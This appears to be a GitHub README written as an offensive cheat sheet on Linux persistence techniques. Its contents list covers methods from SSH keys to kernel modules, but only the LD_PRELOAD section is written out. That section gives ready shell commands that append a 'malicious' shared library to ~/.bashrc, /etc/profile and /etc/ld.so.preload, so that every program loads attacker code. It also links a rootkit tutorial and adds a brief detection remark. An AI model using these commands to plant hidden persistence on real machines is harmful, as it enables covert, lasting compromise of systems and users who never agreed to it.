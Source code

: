 
# Linux persistence addons

</br>

* [Non-Root](#non-root)
	* [:heavy_check_mark: LD_PRELOAD](#ld_preload)
	* [:heavy_check_mark: SSH authorized keys](#SSH-Authorized-Keys)
	* [:heavy_check_mark: Trap](#event-triggered-execution-trap)	
	* [:heavy_check_mark: Compromise Client Software Binary](#Compromise-Client-Software-Binary)
	* [:heavy_check_mark: Add service](#Add-service)
	* [:heavy_check_mark: ~/.bash_profile and ~/.bashrc](#files-bash_profile-and-bashrc)
* [Root](#root)
	* [:heavy_check_mark: rc.local](#rclocal)
	* [:heavy_check_mark: Kernel Module Loading](#kml-kernel-module-loading)
* [More methods](#More-methods)


</br>


# Non-root

</br>

## LD_PRELOAD
Add your malicious *.so* (with your rewritten *sys.calls*) file to **LD_PRELOAD**
and every program, which use *syscalls* (rewritten by you) will use your functions instead of default syscalls.
#### Examples:

```bash
 echo export LD_PRELOAD=/path/to/badguy.so >> ~/.bashrc
```

or

(***ROOT PRIVILEGES NEEDED!***)

```bash
echo /path/to/badguy.so >> /etc/ld.so.preload

echo export LD_PRELOAD=/path/to/badguy.so >> /etc/profile
```



You can read more on how to build this *.so* here (RUS) </br>
*refer: https://xakep.ru/2020/12/29/ld_preload-rootkit/*

#### Detection:
User can see malicious string in */etc/ld.so.preload* or in *~/.bashrc*



